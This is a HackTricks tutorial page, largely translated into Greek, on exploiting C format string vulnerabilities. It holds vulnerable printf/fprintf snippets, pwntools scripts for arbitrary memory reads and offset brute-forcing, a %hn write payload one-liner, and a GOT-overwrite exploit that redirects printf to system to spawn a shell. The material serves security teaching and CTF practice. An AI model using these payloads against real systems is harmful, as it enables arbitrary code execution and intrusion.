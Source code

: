 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_απαιτείται άριστη γνώση πολωνικών, γραπτά και προφορικά_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

In C **`printf`** είναι μια συνάρτηση που μπορεί να χρησιμοποιηθεί για να **εκτυπώσει** κάποιο κείμενο. Η **πρώτη παράμετρος** που περιμένει αυτή η συνάρτηση είναι το **ακατέργαστο κείμενο με τους μορφοποιητές**. Οι **επόμενες παράμετροι** που αναμένονται είναι οι **τιμές** για να **αντικαταστήσουν** τους **μορφοποιητές** από το ακατέργαστο κείμενο.

Άλλες ευάλωτες συναρτήσεις είναι οι **`sprintf()`** και **`fprintf()`**.

Η ευπάθεια εμφανίζεται όταν ένα **κείμενο επιτιθέμενου χρησιμοποιείται ως η πρώτη παράμετρος** σε αυτή τη συνάρτηση. Ο επιτιθέμενος θα είναι σε θέση να δημιουργήσει μια **ειδική είσοδο εκμεταλλευόμενος** τις δυνατότητες της **printf format** string για να διαβάσει και να **γράψει οποιαδήποτε δεδομένα σε οποιαδήποτε διεύθυνση (αναγνώσιμη/γραπτή)**. Έχοντας έτσι τη δυνατότητα να **εκτελέσει αυθαίρετο κώδικα**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Παραδείγματα:**

* Ευάλωτο παράδειγμα:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Κανονική Χρήση:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Με Ελλείποντες Παραμέτρους:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf ευάλωτο:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Πρόσβαση σε Δείκτες**

Η μορφή **`%<n>$x`**, όπου `n` είναι ένας αριθμός, επιτρέπει να υποδείξετε στο printf να επιλέξει την n παράμετρο (από τη στοίβα). Έτσι, αν θέλετε να διαβάσετε την 4η παράμετρο από τη στοίβα χρησιμοποιώντας το printf, μπορείτε να κάνετε:
```c
printf("%x %x %x %x")
```
και θα διάβαζες από την πρώτη έως την τέταρτη παράμετρο.

Ή θα μπορούσες να κάνεις:
```c
printf("%4$x")
```
και να διαβάσει απευθείας το τέταρτο.

Σημειώστε ότι ο επιτιθέμενος ελέγχει την παράμετρο `printf`, **που σημαίνει βασικά ότι** η είσοδός του θα είναι στη στοίβα όταν καλείται το `printf`, που σημαίνει ότι θα μπορούσε να γράψει συγκεκριμένες διευθύνσεις μνήμης στη στοίβα.

{% hint style="danger" %}
Ένας επιτιθέμενος που ελέγχει αυτή την είσοδο, θα είναι σε θέση να **προσθέσει αυθαίρετες διευθύνσεις στη στοίβα και να κάνει το `printf` να τις προσπελάσει**. Στην επόμενη ενότητα θα εξηγηθεί πώς να χρησιμοποιηθεί αυτή η συμπεριφορά.
{% endhint %}

## **Αυθαίρετη Ανάγνωση**

Είναι δυνατόν να χρησιμοποιηθεί ο μορφοποιητής **`%n$s`** για να κάνει το **`printf`** να αποκτήσει τη **διεύθυνση** που βρίσκεται στη **n θέση**, ακολουθώντας την και **να την εκτυπώσει σαν να ήταν μια συμβολοσειρά** (εκτύπωση μέχρι να βρεθεί ένα 0x00). Έτσι, αν η βασική διεύθυνση του δυαδικού είναι **`0x8048000`**, και γνωρίζουμε ότι η είσοδος του χρήστη ξεκινά στην 4η θέση στη στοίβα, είναι δυνατόν να εκτυπωθεί η αρχή του δυαδικού με:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Σημειώστε ότι δεν μπορείτε να βάλετε τη διεύθυνση 0x8048000 στην αρχή της εισόδου γιατί η συμβολοσειρά θα κοπεί στο 0x00 στο τέλος αυτής της διεύθυνσης.
{% endhint %}

### Βρείτε την απόσταση

Για να βρείτε την απόσταση στην είσοδό σας, μπορείτε να στείλετε 4 ή 8 bytes (`0x41414141`) ακολουθούμενα από **`%1$x`** και **να αυξήσετε** την τιμή μέχρι να ανακτήσετε τα `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Πόσο χρήσιμο

Οι αυθαίρετες αναγνώσεις μπορούν να είναι χρήσιμες για:

* **Dump** το **binary** από τη μνήμη
* **Πρόσβαση σε συγκεκριμένα μέρη της μνήμης όπου αποθηκεύεται ευαίσθητη** **πληροφορία** (όπως canaries, κλειδιά κρυπτογράφησης ή προσαρμοσμένους κωδικούς όπως σε αυτήν την [**CTF πρόκληση**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Αυθαίρετη Εγγραφή**

Ο μορφοποιητής **`%<num>$n`** **γράφει** τον **αριθμό των γραμμένων byte** στη **δεικνυόμενη διεύθυνση** στην παράμετρο \<num> στο stack. Εάν ένας επιτιθέμενος μπορεί να γράψει όσους χαρακτήρες θέλει με το printf, θα είναι σε θέση να κάνει το **`%<num>$n`** να γράψει έναν αυθαίρετο αριθμό σε μια αυθαίρετη διεύθυνση.

Ευτυχώς, για να γράψει τον αριθμό 9999, δεν χρειάζεται να προσθέσει 9999 "A"s στην είσοδο, για να το κάνει αυτό είναι δυνατό να χρησιμοποιήσει τον μορφοποιητή **`%.<num-write>%<num>$n`** για να γράψει τον αριθμό **`<num-write>`** στη **διεύθυνση που υποδεικνύεται από τη θέση `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Ωστόσο, σημειώστε ότι συνήθως για να γράψετε μια διεύθυνση όπως το `0x08049724` (η οποία είναι ένας ΜΕΓΑΛΟΣ αριθμός για να γραφτεί ταυτόχρονα), **χρησιμοποιείται το `$hn`** αντί για το `$n`. Αυτό επιτρέπει να **γραφούν μόνο 2 Bytes**. Επομένως, αυτή η λειτουργία εκτελείται δύο φορές, μία για τα υψηλότερα 2B της διεύθυνσης και άλλη μία για τα χαμηλότερα.

Επομένως, αυτή η ευπάθεια επιτρέπει να **γραφεί οτιδήποτε σε οποιαδήποτε διεύθυνση (τυχαία εγγραφή).**

Σε αυτό το παράδειγμα, ο στόχος είναι να **επικαλυφθεί** η **διεύθυνση** μιας **λειτουργίας** στον πίνακα **GOT** που θα κληθεί αργότερα. Αν και αυτό θα μπορούσε να εκμεταλλευτεί άλλες τεχνικές τυχαίας εγγραφής για εκτέλεση:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Θα **επικαλυφθεί** μια **λειτουργία** που **λαμβάνει** τα **ορίσματά** της από τον **χρήστη** και θα **δείξει** τη **λειτουργία `system`**.\
Όπως αναφέρθηκε, για να γραφεί η διεύθυνση, συνήθως απαιτούνται 2 βήματα: Πρώτα **γράφονται 2Bytes** της διεύθυνσης και στη συνέχεια τα άλλα 2. Για να το κάνετε αυτό, χρησιμοποιείται το **`$hn`**.

* **HOB** καλείται για τα 2 υψηλότερα bytes της διεύθυνσης
* **LOB** καλείται για τα 2 χαμηλότερα bytes της διεύθυνσης

Στη συνέχεια, λόγω του πώς λειτουργεί η μορφή της συμβολοσειράς, πρέπει να **γραφεί πρώτα το μικρότερο** από \[HOB, LOB] και μετά το άλλο.

Αν HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Αν HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Template

Μπορείτε να βρείτε ένα **πρότυπο** για να προετοιμάσετε μια εκμετάλλευση για αυτόν τον τύπο ευπάθειας στο:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ή αυτό το βασικό παράδειγμα από [**εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

Είναι δυνατόν να καταχραστούμε τις ενέργειες εγγραφής μιας ευπάθειας μορφοποίησης συμβολοσειρών για να **γράψουμε σε διευθύνσεις της στοίβας** και να εκμεταλλευτούμε μια ευπάθεια τύπου **buffer overflow**.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, βασική χρήση μορφοποίησης συμβολοσειρών για να διαρρεύσει η σημαία από τη στοίβα (δεν χρειάζεται να αλλάξει η ροή εκτέλεσης)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, μορφοποίηση συμβολοσειράς για να αντικαταστήσει τη διεύθυνση `fflush` με τη συνάρτηση win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, μορφοποίηση συμβολοσειράς για να γράψει μια διεύθυνση μέσα στο main στο `.fini_array` (έτσι ώστε η ροή να επαναληφθεί 1 φορά ακόμα) και να γράψει τη διεύθυνση στο `system` στον πίνακα GOT που δείχνει στο `strlen`. Όταν η ροή επιστρέψει στο main, το `strlen` εκτελείται με είσοδο χρήστη και δείχνει στο `system`, θα εκτελέσει τις εντολές που έχουν περαστεί.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για **καριέρα στον hacking** και να χακάρετε το μη χακάρισμα - **προσλαμβάνουμε!** (_απαιτείται άπταιστη γραπτή και προφορική πολωνική_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Support HackTricks

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.
{% endhint %}
